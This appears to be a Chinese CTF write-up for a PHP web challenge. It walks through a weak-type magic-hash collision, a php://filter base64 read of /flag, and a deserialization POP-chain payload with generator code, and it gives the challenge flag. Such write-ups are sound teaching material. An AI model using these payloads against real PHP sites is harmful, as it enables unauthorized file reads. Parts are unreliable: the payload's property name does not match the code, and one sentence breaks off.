 使用PHP弱类型碰撞:**Checkcode1=QNKCDZO,Checkcode2=240610708**成功进入第二步.

可以看出,我们并不能直接读取flag的值,flag的值中包含了vidar这个字符串,会触发过滤规则.

我们利用php伪协议对flag进行读取,令最终的file的值为:

```php
php://filter/read=convert.base64-encode/resource=/flag
```

这样,我们就可以利用PHP伪协议读取flag了.当然,读取出来的是base64编码后的flag,再转码即可获得原flag.

接下来是利用PHP反序列化漏洞来构造payload.

在 PHP 中，`__get` 方法用于在访问一个对象的不可访问属性时触发,而`__call` 方法用于在尝试调用一个对象的不可访问方法时触发.我们需要按照pop链来构造一个有效的反序列payload.

触发序列为_ _destruct()->

构造如下PHP程序产生payload.

```php
<?php
class HereWeGo{
    public function __construct() {
        $this->go = new GoGoGo();
    }}
class GoGoGo{
    public $go;
    public function __construct() {
        $this->go = new Evil();
    }
}
class Evil {
    public $file;
    public function __construct() {
        $this->file = "php://filter/read=convert.base64-encode/resource=/flag";
    }
}
$payload=new HereWeGo();
var_dump(serialize($payload));
?>
```

payload:

```php
O:8:"HereWeGo":1:{s:3:"try";O:6:"GoGoGo":1:{s:2:"go";O:4:"Evil":1:{s:4:"file";s:54:"php://filter/read=convert.base64-encode/resource=/flag";}}}
```

flag:`VIDAR{Php,BeAwAre0FUnS@vE_uNsEr1al1z5=o==o=}`

### Read Something Useful

查看靶机页面

![](C:\Users\24993\Desktop\博客文章\static\page.png)
